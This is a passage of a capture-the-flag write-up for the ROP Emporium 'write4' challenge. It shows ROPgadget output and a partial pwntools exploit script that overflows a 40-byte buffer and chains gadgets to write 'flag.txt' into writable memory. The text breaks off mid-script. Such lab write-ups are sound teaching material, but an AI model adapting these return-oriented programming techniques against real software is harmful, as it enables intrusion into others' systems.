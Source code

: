 ```bash
┌──(venv)─(at0m㉿DESKTOP-HSPMATJ)-[/mnt/…/Temp/rop/rop_emporium_all_challenges/write4]
└─$ ROPgadget --binary ./write4
Gadgets information
============================================================
<SNIP>
0x0000000000400690 : pop r14 ; pop r15 ; ret
```

We need this above gadget so we can pop values into registers for inserting our string. We also know that `print_file` function takes the argument. So we need one more `rdi` register to pass it as argument which will be `flag.txt`.

```bash
┌──(venv)─(at0m㉿DESKTOP-HSPMATJ)-[/mnt/…/Temp/rop/rop_emporium_all_challenges/write4]
└─$ ROPgadget --binary ./write4 | grep rdi
0x0000000000400693 : pop rdi ; ret
```

And obviously offset also which is `40`.

```python
from pwn import *

# --------------------------------------------------
# Step 1: Define target binary and start the process
io = process('./write4')

# --------------------------------------------------
# Step 2: Define useful gadgets and function addresses

# Gadget: pop r14 ; pop r15 ; ret
#   - Used to control both r14 (destination) and r15 (value to store)
pop_r14_r15 = 0x400690

# Gadget: mov qword ptr [r14], r15 ; ret
#   - Writes value in r15 to memory pointed by r14
mov_r14_r15 = 0x400628

# Gadget: pop rdi ; ret
#   - Used to control the 1st argument to a function (RDI)
pop_rdi = 0x400693

# Address: .data section
#   - Writable memory where we'll place "flag.txt"
data_section = 0x601028

# Function: print_file@plt
#   - Function to call with RDI pointing to "flag.txt"
print_file = 0x400510

# --------------------------------------------------
# Step 3: Create initial padding to reach return address
# 40 bytes needed to overflow the buffer up to saved RIP
payload = b"A" * 40

# --------------------------------------------------
# Step 4: Write "flag.txt" into .data section using ROP chain
#   1. pop r14 ; pop r15 ; ret
#   2. r14 = data_section, r15 = b"flag.txt"
#   3. mov qword ptr [r14], r15 ; ret

payload += p64(pop_r14_r15)          # Gadget to control r14 and r15
payload += p64(data_section)         # r14 = destination address
payload += b"flag.txt"               # r15 = string to write
payload += p64(mov_r14_r15)          # Perform *r14 = r15
```